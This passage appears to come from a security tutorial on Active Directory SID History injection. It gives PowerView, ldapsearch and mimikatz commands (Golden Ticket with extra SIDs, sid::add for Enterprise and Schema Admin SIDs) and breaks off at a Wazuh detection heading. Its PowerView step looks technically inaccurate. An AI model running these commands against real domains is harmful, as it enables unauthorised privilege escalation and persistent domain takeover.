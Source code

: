 Alternative method using **PowerView**:

```powershell
# Import PowerView
Import-Module PowerView.ps1

# Get the SID of the target account
Get-DomainUser -Identity victim | Select-Object samaccountname, objectsid

# Get the SID of the Domain Admins group
Get-DomainGroup -Identity "Domain Admins" | Select-Object samaccountname, objectsid

# Add SID History using PowerView
Add-DomainObjectAcl -TargetIdentity victim -PrincipalIdentity "Domain Admins" -Rights WriteProperty -PropertyName sIDHistory
```

#### Step 3: Verification

Verify the SID History injection was successful:

```shell
# Check the modified SID History
ldapsearch -H ldap://acme.local -u "acme.local\attacker" -p "Password123!" -b "dc=acme,dc=local" "(sAMAccountName=victim)" sIDHistory

# Test access to privileged resources
dir \\acme.local\admin$ /user:acme.local\victim
```

### Advanced SID History Techniques

#### Golden Ticket with SID History

Create a Golden Ticket that includes SID History for cross-domain access:

```shell
# Create Golden Ticket with SID History
mimikatz.exe
kerberos::golden /user:Administrator /domain:acme.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:hash /sids:S-1-5-21-0987654321-0987654321-0987654321-519 /ptt
```

#### Cross-Domain SID History Injection

Inject SIDs from a trusted domain:

```shell
# Add Enterprise Admin SID from parent domain
sid::add /sam:victim /new:enterprise.local-519

# Add Schema Admin SID
sid::add /sam:victim /new:acme.local-518
```

## Detection & Response Using Wazuh

